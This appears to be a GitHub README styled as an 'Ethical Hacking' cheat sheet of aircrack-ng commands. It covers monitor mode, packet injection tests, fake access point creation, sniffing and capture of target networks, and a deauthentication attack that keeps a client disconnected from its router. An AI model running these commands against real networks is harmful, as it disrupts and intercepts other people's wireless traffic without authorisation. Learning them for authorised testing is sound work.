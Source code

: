 # <p style="text-align:center">Ethical Hacking Cheat Sheet </p>
---
<details>
    <summary> Basic Information</summary>
These commands are works only on linux based OS system
An external Network Adapter is required, Your Network Adapter must support
<span style="color: orange">Monitor Mode, packet injection mode </span> Here my network interface name is <span style="color: orange">wlan1</span>, use these commands

```sh
iwconfig 
```
 or 
 ```
 ifconfig
 ```
check your network interface name, your network interface name may be diffrent use accordingly.

First you need to switch root user

```
sudo su
```
</details>

# Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file##network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file##network-adapter-testing-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file##packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file##de-authentication-attack)

---
## Network Manager Commands
### kill network manager
```
airmon-ng check kill
```
### Enable Network Manager
```
service NetworkManager start
```
### Restart Network Manager
```
systemctl restart NetworkManager
```
### Check Status of Network Manager
```
systemctl status NetworkManager
```
---
## Network Adapter Testing Commands
### Enable Monitor Mode
```
airmon-ng start wlan1
```
### Disable Monitor Mode
```
airmon-ng stop wlan1
```
### Packet Injection test
```
aireplay-ng --test wlan1
```
### Creating Access Point Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
## Packet Sniffing
### sniff network around us `2.4 GHz`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### capture data in a file `test`
```
airodump-ng --bssid @1 --channel @2 --write test wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

### open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```
---
## DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client
<details>
    <summary>know more abot it</summary>
we're doing --deauth to tell
aireplay-ng that I want to run a de-authentication attack,
I'm givin' it a really large number of packets, so that it
keeps sending the de-authentication packets
to both the router and the client, and keep the client
disconnected, I'm using -a to specify the MAC address of the
target router, or the target access point, then I'm using -c
to specify the MAC address of the client.
</details>
&nbsp;

if it`s fails then, ot target specific router
```
airodump-ng --bssid @1 --channel @2 wlan1
```
@1 → BSSID of target

@2 → Channel number